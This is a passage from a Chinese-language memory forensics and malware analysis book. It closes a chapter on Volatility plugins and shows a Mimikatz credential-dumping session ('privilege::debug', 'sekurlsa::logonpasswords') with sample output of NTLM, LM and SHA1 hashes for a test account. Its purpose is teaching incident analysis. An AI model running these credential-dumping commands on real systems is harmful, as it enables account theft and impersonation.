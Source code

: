 ```
C:\>cmd.exe /c %temp%\net.exe

[REMOVED] 

mimikatz # privilege::debug 
Privilege '20' OK 

mimikatz # sekurlsa::logonpasswords                                                                             
Authentication Id : 0 ; 269689 (00000000:00041d79) 
Session : Interactive from 1 
User Name : test 
Domain : PC 
Logon Server : PC 
Logon Time : 5/4/2018 10:00:59 AM 
SID : S-1-5-21-1752268255-3385687637-2219068913-1000 
        msv : 
         [00000003] Primary 
         * Username : test 
         * Domain : PC 
         * LM : 0b5e35e143b092c3e02e0f3aaa0f5959 
         * NTLM : 2f87e7dcda37749436f914ae8e4cfe5f 
         * SHA1 : 7696c82d16a0c107a3aba1478df60e543d9742f1 
        tspkg : 
         * Username : test 
         * Domain : PC 
         * Password : cleartext 
        wdigest : 
         * Username : test 
         * Domain : PC 
         * Password : cleartext 
        kerberos : 
         * Username : test 
         * Domain : PC 
         * Password : cleartext 
```

在 Windows 8.1 及更高版本上，你可能无法使用 Mimikatz 以明文形式转储密码，但 Mimikatz 为攻击者提供了多种功能。攻击者可能使用提取的 NTLM 哈希值来冒充账户。有关 Mimikatz 的详细信息及如何使用它提取 Windows 凭证，请阅读[`adsecurity.org/?page_id=1821`](https://adsecurity.org/?page_id=1821)。

# 总结

内存取证是一种出色的技术，可以从计算机内存中查找和提取取证证据。除了在恶意软件调查中使用内存取证外，你还可以将其作为恶意软件分析的一部分，以获取有关恶意软件行为和特征的更多信息。本章介绍了不同的 Volatility 插件，帮助你了解在受感染系统上发生的事件，并提供对恶意软件活动的洞察。在下一章，我们将使用更多 Volatility 插件来确定高级恶意软件的功能，你将学会如何使用这些插件提取取证证据。
